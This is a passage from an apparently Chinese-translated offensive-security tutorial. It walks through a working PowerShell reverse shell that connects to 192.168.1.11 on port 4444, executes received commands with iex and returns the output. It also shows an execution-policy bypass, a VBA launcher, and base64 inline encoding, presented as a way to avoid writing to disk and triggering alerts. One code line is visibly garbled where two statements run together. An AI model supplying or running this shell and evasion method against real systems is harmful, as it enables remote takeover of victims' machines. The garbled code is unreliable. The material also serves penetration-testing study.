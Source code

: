 ```text
    $stream.Write($sendbyte,0,$sendbyte.Length);
    $stream.Flush()
};
$client.Close()
```

为了确保脚本正常工作，我们使用以下命令在普通的Windows机器上执行它： `C:\examples> Powershell -Exec Bypass .\reverse.ps1`

在Front Gun服务器上，我们在端口4444上设置了监听器:

![](.gitbook/assets/6.listener.png)

漂亮！我们在远程（测试）机器上进行远程执行。理想情况下，我们希望使用类似的VBA代码来调用此脚本:

`VBA> Shell ("powershell c:\temp\reverse.ps1 ")`

但是我们需要在将脚本写入到目标磁盘上，这可能会触发更多告警。避免这种情况的一种方法是使用PowerShell的内联命令执行的强大功能！我们执行作为powershell.exe参数传递过来的一串代码，从而替代执行一个脚本文件。

我们首先在每条指令的末尾添加一个分号';':

```text
$client = New-Object System.Net.Sockets.TCPClient("192.168.1.11",4444);
$stream = $client.GetStream();

$greeting = "PS " + (pwd).Path + "> ";
$sendbyte = ([text.encoding]::ASCII).GetBytes($greeting);
$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flus [byte[]]$bytes = 0..255|%{0};

while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0) {
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
    $sendback = (iex $data 2>&1 | Out-String );
    $sendback2 = $sendback + "PS " + (pwd).Path + "> ";
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
    $stream.Write($sendbyte,0,$sendbyte.Length);
    $stream.Flush();
}
$client.Close();
```

然后我们在Linux上用Unicode base64编码脚本的内容:

```text
FrontGun$ cat reverse.ps1 | iconv -f UTF8 -t UTF16LE | base64
```

![](.gitbook/assets/7.encode.png)
